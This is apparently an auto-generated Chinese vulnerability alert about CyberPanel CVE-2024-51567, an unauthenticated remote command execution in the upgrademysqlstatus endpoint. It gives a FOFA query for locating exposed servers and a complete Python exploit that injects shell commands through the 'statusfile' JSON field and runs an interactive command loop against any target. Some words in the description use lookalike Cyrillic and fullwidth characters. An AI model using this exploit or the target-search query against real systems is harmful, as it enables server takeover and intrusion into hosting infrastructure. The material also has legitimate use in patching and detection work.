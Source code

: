 #  [含POC]CyberPanel upgrademysqlstatus 远程命令执行漏洞(CVE-2024-51567)   
原创 漏洞预警机器人  安全光圈   2024-12-09 05:44  
  
# CyberPanel upgrademysqlstatus 远程命令执行漏洞(CVE-2024-51567)  
  
免责声明：本文内容为机器人搜集最新漏洞及POC分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！  
## 漏洞名称  
  
CyberPanel upgrademysqlstatus 远程命令执行漏洞(CVE-2024-51567)  
## 漏洞描述  
  
CyberPanel 是一个开源的 Web 托管控制面板，专为 OpenLiteSpeed Web 服务器设计，提供友好的用户界面和多种热门应用。  
  
CуbеrPаｎеl v2.3.5、v2.３.6 版本存在远程命令执行，该漏洞源于uрɡrаdеmуѕԛlѕtаtuѕ接口未做身份验证和参数过滤，未授权攻击者可执行任意命令获取服务器权限。  
  
影响版本：  
  
1、 CyberPanel v2.3.5  
  
2、 CyberPanel v2.3.6  
## FOFA语句  
```
body="Name: CyberPanel-VJ-Theme-Dark"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g1X9cMsc6D3CuNaiaXCIfrAR1eg6t9G4HYk5ia0tOjnkBdgW5HafRvb7uf4hSmicicpvNPDn343icwRliaMRQYnqQaIw/640?wx_fmt=png&from=appmsg "null")  
  
## POC  
```
import httpx import sys def get_CSRF_token(client):    resp = client.get("/")        return resp.cookies['csrftoken']    def pwn(client, CSRF_token, cmd):    headers = {        "X-CSRFToken": CSRF_token,        "Content-Type":"application/json",        "Referer": str(client.base_url)    }        payload = '{"statusfile":"/dev/null; %s; #","csrftoken":"%s"}' % (cmd, CSRF_token)        return client.put("/dataBases/upgrademysqlstatus", headers=headers, data=payload).json()["requestStatus"]    def exploit(client, cmd):    CSRF_token = get_CSRF_token(client)    stdout = pwn(client, CSRF_token, cmd)    print(stdout)    if __name__ == "__main__":    target = sys.argv[1]        client = httpx.Client(base_url=target, verify=False)    while True:        cmd = input("$> ")        exploit(client, cmd)
```  
  
  
